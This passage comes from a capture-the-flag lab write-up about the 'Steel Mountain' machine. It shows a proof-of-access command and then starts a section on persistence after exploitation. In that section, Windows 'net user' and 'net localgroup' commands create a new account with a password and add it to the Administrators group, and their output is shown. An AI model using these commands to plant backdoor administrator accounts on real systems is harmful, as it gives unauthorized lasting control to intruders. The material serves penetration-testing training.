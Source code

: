 ![image](images/steel-mountain-13.png)

```
date && cat proof.txt && whoami && hostname && ip addr 
```
---
## 4. Advanced Persistence Threat Methods 

Following this I will cover some post-exploitation tasks that are mostly forgotten about with CTF labs, and we will go over how to ensure lasting persistence in ways that we would if this were a real world engagement. So if you are interested in this, please follow along in the next section.

### 4.1 Creating a new Administrator user:<a name="41-creating-a-new-administrator-user"></a>

At this point we are assuming you have full system control of the machine. If not, please go back through the last sections to get to this point. From here we can start to ensure we have persistence on Steel Mountain. The first, and simplest thing we can do is create a user and grant them Administrator group permissions.

```
C:\Users>net user themayor !Password!123 /add
net user themayor !Password!123 /add
The command completed successfully.

C:\Users>net localgroup "Administrators" themayor /add
net localgroup "Administrators" themayor /add
The command completed successfully.
```
